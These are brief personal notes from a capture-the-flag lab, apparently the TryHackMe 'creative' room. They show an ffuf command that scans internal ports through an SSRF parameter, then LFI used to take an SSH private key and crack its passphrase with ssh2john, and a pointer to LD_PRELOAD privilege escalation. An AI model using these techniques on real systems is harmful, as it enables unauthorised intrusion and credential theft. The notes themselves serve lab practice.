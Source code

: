 subdomain:
beta.creative.thm


## ssrf
port scan:
```bash
ffuf -u 'http://beta.creative.thm/' -d "url=http://127.0.0.1:FUZZ/" -w <(seq 1 65535) -H 'Content-Type: application/x-www-form-urlencoded' -mc all -t 100 -fs 13
```

LFI con ese endpoint.


### .ssh id_rsa
Phrase? 
ssh2john id_rsa > id_rsa.hash


### .bash_history

sudo -l
![[Pasted image 20240608223423.png]]

https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/